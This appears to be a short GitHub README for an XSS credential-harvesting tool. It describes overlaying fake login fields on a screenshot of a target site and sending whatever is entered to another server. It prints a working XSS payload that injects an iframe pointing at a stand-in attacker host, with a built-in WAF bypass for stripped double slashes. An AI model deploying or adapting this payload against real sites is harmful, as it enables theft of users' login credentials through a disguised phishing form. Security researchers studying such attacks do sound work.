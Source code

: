 # XSS_Fake_Login

Based on https://trustedsec.com/blog/scraping-login-credentials-with-xss and https://gist.github.com/hoodoer/f58ac94755ba2faf5d971d4350a580ed

Instead of display the original website in an iframe, we only display a screenshot of the original website and overlay the form/input fields. Those will be exfiltrated to another server.

Payload for XSS in url could be:

Note this already includes a bypass for the waf, which stripped out double / (//)
```
<iframe id="search" src="" allow="fullscreen" align="left" width="2048" height="1600" frameborder="0"></iframe><script>let getInput = "/attacker.webserver/login.html";var address;address = "https:/"+getInput;document.getElementById('search').src = address;</script>
```
The Code for the login.html is in this repo
